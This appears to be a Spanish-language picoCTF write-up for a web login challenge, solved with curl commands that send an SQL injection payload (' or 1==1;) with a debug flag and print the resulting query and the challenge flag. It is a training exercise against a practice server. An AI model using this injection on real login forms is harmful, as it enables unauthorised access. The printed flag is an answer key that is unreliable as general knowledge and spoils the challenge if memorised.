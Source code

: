 
## Descripción

*There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!*

## Pistas

*There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?*

*Try to think about how the website verifies your login.*

## Solución

*WebShell*
```
ceciSolis-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/39720/login.php -d "username-admin&password=password&debug=1"       
<pre>username: 
password: password
SQL query: SELECT * FROM users WHERE name='' AND password='password'
ceciSolis-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/39720/login.php -d "username-admin&password=' or 1==1;&debug=1"     
<pre>username: 
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='' AND password='' or 1==1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_c218b685}</p>ceciSolis-picoctf@webshell:~$ 
```

picoCTF{s0m3_SQL_c218b685


*HTML*

```
#esto es lo que se cambia el debug a 1 que es verdadero, la inyeccion sql es la contraseña se logea y muestra la bandera
<input type="hidden" name="debug" value="1">

username: admin 
password: ' or 1 == 1;
SQL query: SELECT * FROM users WHERE name='admin ' AND password='' or 1 == 1;'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_c218b685}
```
picoCTF{s0m3_SQL_c218b685}
## Notas Adicionales 

*Con curl menos s mandamos llamar el servidor del limk que le pasamos  y sea silencioso despues agregamos el link, luego la -d significa que es un metodo post y le enviamos los datos del post que es el nombre de usuario y la contraseña, se unen con un amperson los campos, despues de activa el campo de debug en 1 que sea true, aunque nos da acceso invalido, cambiamos la contraseña por la inyeccion sql 'or 1 = = 1;* 
*Finalmente ya nos muestra la badnera que necesitabamos*

## Referencias 

https://jupiter.challenges.picoctf.org/problem/39720/
http://jupiter.challenges.picoctf.org:39720
https://jupiter.challenges.picoctf.org/problem/39720/login.php
